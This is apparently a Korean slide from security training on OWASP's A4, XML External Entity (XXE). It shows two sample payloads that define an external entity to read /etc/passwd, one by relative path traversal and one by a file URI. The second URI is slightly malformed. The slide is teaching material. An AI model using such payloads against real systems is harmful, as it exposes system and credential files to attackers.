

A4:XML-외부 개체(XXE)

상대경로를 이용한 원하는 파일 액세스가 가능함
<?xml version=“1.0”?>
<!DOCTYPE change-log [
	<!ENTITY systemEntity SYSTEM “../../../../etc/passwd”>
]>
<change-log>
	<text>&systemEntity;</text>;
</change-log>
<?xml version=“1.0”?>
<!DOCTYPE change-log [
	<!ENTITY systemEntity SYSTEM “.file:///etc/passwd”>
]>
<change-log>
	<text>&systemEntity;</text>;
</change-log>